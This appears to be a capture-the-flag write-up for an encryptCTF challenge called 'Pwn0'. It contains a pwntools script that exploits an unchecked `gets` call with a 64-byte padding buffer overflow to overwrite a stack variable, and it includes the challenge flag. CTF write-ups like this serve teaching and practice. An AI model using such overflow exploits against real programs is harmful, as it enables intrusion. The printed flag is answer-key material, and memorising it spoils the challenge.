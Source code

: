 # Pwn0
### 📄 Description
How is the Josh?

### ⚙ How to run it
```bash
./pwn0
```
<details>
    <summary>
        <h2>🔑 Solution</h2>
    </summary>
    
We see that is used `gets` to read the string. We can exploit this fact to overwrite the `josh` variable with the required string `H!gh`.

```python
from pwn import *

context.binary = "./pwn0"

p = process()
p.sendline(b"A" * 64 + b"H!gh")
log.success(p.recvline_regex(rb".*{.*}.*").decode("ascii"))
```


<h3> 🚩 Flag </h3>

```plain
encryptCTF{L3t5_R4!53_7h3_J05H}
```
</details>
